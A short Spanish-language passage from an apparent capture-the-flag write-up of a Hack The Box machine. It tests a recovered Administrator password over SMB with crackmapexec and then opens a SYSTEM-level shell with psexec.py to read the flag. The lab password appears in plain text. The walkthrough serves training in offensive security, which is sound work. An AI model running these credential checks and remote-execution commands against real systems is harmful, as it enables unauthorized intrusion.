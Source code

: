 ### Validamos las credenciales del usuario Administrator {-}

```bash
crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```

Ya vemos un **[+]** y un **(Pwn3d)**. Quiere decir que podemos connectarnos al systema con `psexec`

### Conexion con psexec.py {-}

```bash
psexec.py WORKGROUP/Administrator@10.10.10.125 cmd.exe

whoami
#Output
nt authority\system
```

Ya estamos como root y podemos ver la flag ;)

> [!] NOTA: S4vitar nos enseña mas tecnicas para conectarnos en el video. Os invito a verlas a partir del minuto 1:24:20